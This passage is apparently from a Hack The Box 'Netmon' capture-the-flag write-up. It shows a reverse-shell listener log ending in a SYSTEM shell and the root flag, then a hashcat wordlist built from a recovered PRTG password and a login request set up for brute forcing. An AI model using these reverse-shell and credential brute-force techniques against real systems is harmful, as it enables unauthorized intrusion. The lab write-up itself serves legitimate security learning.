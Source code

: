 ```bash
[+] Listening on [10.10.16.13:1111 for the reverse shell!]
listening on [any] 1111 ...
[*] Incoming connection (10.129.229.100,55912)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.16.13] from (UNKNOWN) [10.129.229.100] 56080
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
dce48b4d28e1222d1a5cd41ac5c9f7cd
```


# Additional
---

## Generate a custom wordlist to brute force password

After getting password `PrTg@dmin2018` from the backup file

Use **hashcat** rules to generate passwords based on `PrTg@dmin`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon]
└─$ hashcat --force --stdout keywords.txt -r /opt/sectools/password-attacks/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule > passwords_onerule.txt

┌──(bravosec㉿fsociety)-[~/htb/Netmon]
└─$ wc -l passwords_onerule.txt
49229 passwords_onerule.txt
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon]
└─$ cat passwords_onerule.txt | grep 2019
PrTg@dmin2019
Prtg@dmin2019
```

> login.req

```http
POST /public/checklogin.htm HTTP/1.1
Host: netmon.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://netmon.htb
Connection: close
Referer: http://netmon.htb/index.htm
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

loginurl=&username=prtgadmin&password=FUZZ
```